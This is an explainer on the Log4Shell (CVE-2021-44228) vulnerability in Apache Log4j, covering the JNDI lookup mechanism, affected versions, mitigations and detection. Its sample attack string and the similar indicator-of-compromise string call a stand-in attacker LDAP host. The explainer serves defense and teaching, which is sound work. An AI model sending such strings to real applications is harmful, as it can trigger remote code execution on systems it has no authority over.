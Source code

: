 <br>

# The Log4j Vulnerability
The Log4j vulnerability, also known as **Log4Shell (CVE-2021-44228), is a critical zero-day exploit discovered in December 2021 that affects the widely used Java-based logging library Apache Log4j**. This vulnerability enables **Remote Code Execution (RCE)**, potentially allowing attackers to take full control of affected systems.

## 1. Overview of Log4j
  - What is Log4j?
    - **A popular open-source Java logging library** developed by the Apache Software Foundation.
    - Widely used across enterprise applications, cloud services, and frameworks.
  - The Vulnerability
    - CVE-2021-44228: **Allows attackers to send specially crafted input strings to applications that use Log4j, which are then logged and trigger the vulnerability**.
    - **Exploited via the Java Naming and Directory Interface (JNDI)** feature in Log4j.  
<br>

## 2. How the Vulnerability Works
1. **Malicious Input**
  - An attacker **sends a crafted payload containing a malicious JNDI lookup string to an application**.
  - Example  

```
${jndi:ldap://attacker.com/exploit}
```

2. **JNDI Lookup**
  - Log4j processes the string and attempts a lookup via JNDI.
  - JNDI can query external services (e.g., LDAP, RMI).

3. **Remote Code Execution**
  - If the lookup resolves to a malicious server, the attacker can supply a payload that Log4j executes on the vulnerable system.

4. **Impact**
  - Attackers gain RCE capabilities, allowing them to execute arbitrary code, steal data, deploy ransomware, or escalate privileges.  
<br>

## 3. Why Log4Shell is Dangerous
  - **Widespread Use**
    - Log4j is embedded in numerous applications, frameworks, and services.
    - Includes enterprise software (e.g., ElasticSearch, Kafka) and cloud platforms.
  - **Ease of Exploitation**
    - Requires minimal technical knowledge; attackers only need to send crafted strings to logs.
  - **Severe Impact**
    - Remote code execution can compromise entire systems or networks.
  - **Stealth**
    - Exploitation may leave minimal traces, making detection challenging.  
<br>

## 4. Affected Versions
  - Vulnerable Versions
    - Apache Log4j 2.0-beta9 to 2.14.1.
  - Fixed Versions
    - Apache Log4j 2.15.0 and later.
    - Further fixes in 2.16.0 and 2.17.0 addressed related issues.  
<br>

## 5. Mitigation and Prevention

### a. Immediate Actions
1. **Update Log4j**
  - Upgrade to a fixed version (2.15.0 or later, ideally 2.17.0).
  - Remove unused Log4j libraries from applications.
2. Temporary Workarounds
  - **Set the log4j2.formatMsgNoLookups system property to true**  

```
-Dlog4j2.formatMsgNoLookups=true
```
  - **Remove the JNDI class from the Log4j library**  

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

3. **Disable JNDI**
  - Ensure JNDI lookups are not enabled in the application.

### b. Long-Term Actions
1. **Audit Systems**
  - Identify and inventory applications and systems that use Log4j.
  - Use scanning tools to detect vulnerable versions.
2. **Monitor for Exploitation**
  - Monitor logs for JNDI lookup patterns or unexpected outbound traffic.
3. **Apply Patches**
  - Stay updated on Apache Log4j patches and advisories.
4. **Restrict Outbound Traffic**
  - Limit outbound network access for applications to reduce the risk of malicious JNDI lookups.  
<br>

## 6. Detection and Exploitation Indicators

### Indicators of Compromise (IOCs)
  - **Unexpected JNDI lookups in logs**  

```
${jndi:ldap://malicious-server.com/exploit}
```

  - **Anomalous outbound traffic**
    - Connections to unknown LDAP or RMI servers.
  - **New or unknown processes spawned by the application**.

### Detection Tools
  - Open Source Scanners
    - **Log4j Detec**t: Scans for vulnerable Log4j libraries.
    - **Lacework Log4Shell Detector**: Detects active exploitation.
  - **SIEM Tools**
    - Use queries to identify patterns indicating exploitation attempts.  
<br>

## 7. Real-World Impact
  - Attacks
    - Major organizations and cloud providers reported attacks exploiting Log4Shell.
    - **Used for ransomware deployment, cryptocurrency mining, and data exfiltration**.
  - Response
    - Cloud providers like AWS, Azure, and GCP quickly implemented mitigations and patches in their services.  
<br>

## 8. Summary

| Aspect | Details |
| ------ | ------- |
| Vulnerability Name | Log4Shell |
| CVE | CVE-2021-44228 |
| Type | Remote Code Execution (RCE) |
| Affected Versions | Log4j 2.0-beta9 to 2.14.1 |
| Mitigation | Update to 2.15.0 or later, disable JNDI, or patch/remove JNDI class. |
| Impact | Full system compromise, data theft, ransomware deployment. |
| Detection Tools | Log4j Detect, Lacework Log4Shell Detector, SIEM queries. |

**The Log4j vulnerability, Log4Shell, highlights the risks associated with widely used open-source libraries**. Organizations should **prioritize patching and monitoring, while adopting long-term measures such as enhanced dependency management and runtime protections** to mitigate future threats.  
<br>